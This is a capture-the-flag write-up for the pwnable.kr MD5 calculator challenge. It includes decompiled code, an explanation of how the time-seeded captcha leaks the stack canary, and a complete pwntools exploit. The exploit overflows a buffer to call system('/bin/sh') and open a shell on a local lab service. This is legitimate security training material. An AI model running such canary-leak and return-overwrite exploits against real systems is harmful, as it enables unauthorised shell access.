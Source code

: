 # Pwnable.kr MD5 calculator CTF Writeup

## Problem Description

The code of the program is:

### my_hash

```c
08048ed8  int32_t my_hash()

08048edf      void* gsbase
08048edf      int32_t eax = *(gsbase + 0x14)
08048eed      void var_30
08048eed      void* var_38 = &var_30
08048eed      
08048f1a      for (int32_t i = 0; i s<= 7; i += 1)
08048f10          *((i << 2) + var_38) = rand()
08048f10      
08048f75      int32_t result = *(var_38 + 0x14) + *(var_38 + 4) + *(var_38 + 8) - *(var_38 + 0xc) + *(var_38 + 0x20) + *(var_38 + 0x1c) + *(var_38 + 0x10) - *(var_38 + 0x18)
08048f75      
08048f85      if (eax == *(gsbase + 0x14))
08048f91          return result
08048f91      
08048f87      __stack_chk_fail()
08048f87      noreturn
```

### process_hash

```c
08048f92  int32_t process_hash()

08048f9d      void* gsbase
08048f9d      int32_t eax = *(gsbase + 0x14)
08048fbe      void s
08048fbe      __builtin_memset(&s, c: 0, n: 0x200)
08048fc9      int32_t i
08048fc9      
08048fc9      do
08048fc1          i = getchar()
08048fc9      while (i != 0xa)
08048fde      __builtin_memset(s: 0x804b0e0, c: 0, n: 0x400)
08048ff8      fgets(buf: &_0x804b0e0, n: 0x400, fp: stdin)
08049013      __builtin_memset(&s, c: 0, n: 0x200)
08049044      int32_t eax_3 = calc_md5(&s, Base64Decode(0x804b0e0, &s))
08049061      printf(format: "MD5(data) : %s\n", eax_3)
0804906f      free(mem: eax_3)
08049077      int32_t result = eax ^ *(gsbase + 0x14)
08049077      
0804907e      if (result == 0)
0804908e          return result
0804908e      
08049080      __stack_chk_fail()
08049080      noreturn
```

### main

```c
0804908f  int32_t main(int32_t argc, char** argv, char** envp)

080490b8      setvbuf(fp: stdout, buf: nullptr, mode: 1, size: 0)
080490dd      setvbuf(fp: stdin, buf: nullptr, mode: 1, size: 0)
080490e9      puts(str: "- Welcome to the free MD5 calcul…")
080490fd      srand(x: time(nullptr))
08049102      int32_t eax_1 = my_hash()
0804911b      printf(format: "Are you human? input captcha : %…", eax_1)
08049130      int32_t var_18
08049130      __isoc99_scanf(format: &data_80492df, &var_18)
08049130      
0804913d      if (eax_1 != var_18)
08049146          puts(str: "wrong captcha!")
08049152          exit(status: 0)
08049152          noreturn
08049152      
0804915e      puts(str: "Welcome! you are authenticated.")
0804916a      puts(str: "Encode your data with BASE64 the…")
0804916f      process_hash()
0804917b      puts(str: "Thank you for using our service.")
08049187      system(line: "echo `date` >> log")
08049192      return 0
```

## Analysis

The program first using `srand` function to decleare a seed for the random function. the seed is the current time. This means that if we know the eaxct time the program ran, we can know all the random values in the program. after that the program calls `my_hash` function which genreate hash. It does that by creating an array of length 8 that countain random values (that we can predict). Than it calculate the hash like this: `result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + var[8]`. As we can see, there is buffer overflow here, because `var[8]` is outside the array. So the hash countain some 4 byte value on the stack, which we can calculate and find. To find whats that value, we need to look in the disasmbley. In there we can see that the canary is set in these lines:
```asm
.text:08048EDF                 mov     eax, large gs:14h
.text:08048EE5                 mov     [ebp-0xc], eax
```
so the canary is located in `[ebp-0xc]`.
In addition we can see from your disassembly:
```asm
mov [ebp-0xc], eax
lea eax, [ebp-0x2c]
mov [ebp-0x34], eax
```
So the array starts at `[ebp-0x2c]` which is `[ebp-44]` and its size is 8 so its total size is 32 bytes, which means the `arr[8]` is in address `[ebp-12]` (44-32=12) which in hex is `[ebp-0xc]`, and thats where the canary is saved.
So the hash is equal to `vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + canary`, and since we know all the radom values, we can calculate the canary.


## Exploit Code

```python
from pwn import *
import ctypes
import time

context.log_level = 'info'

libc = ctypes.CDLL("libc.so.6")
libc.srand.argtypes = (ctypes.c_uint,)
libc.rand.restype = ctypes.c_int

seed = int(time.time())
libc.srand(seed)

vals = [libc.rand() for _ in range(8)]

result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6]
print("result:", result)

p = remote('localhost', 9002)

p.recvuntil(b'captcha : ')
captcha = int(p.recv().decode())
p.sendline(str(captcha))
print("captcha:", captcha)

canary = captcha - result
canary = canary & 0xffffffff
canary = p32(canary)
print("canary:", canary)

call_system_addr = p32(0x8049187)
print("call system address:", call_system_addr)

binsh_addr = p32(0x804B3AC)
print("/bin/sh address:", binsh_addr)

payload = b'A' * 512 + canary + b'A' * 12 + call_system_addr + binsh_addr
payload = b64e(payload).encode() + b'/bin/sh\0'

p.recvuntil(b'Encode your data with BASE64 then paste me!\n')
p.sendline(payload)
p.interactive()
```


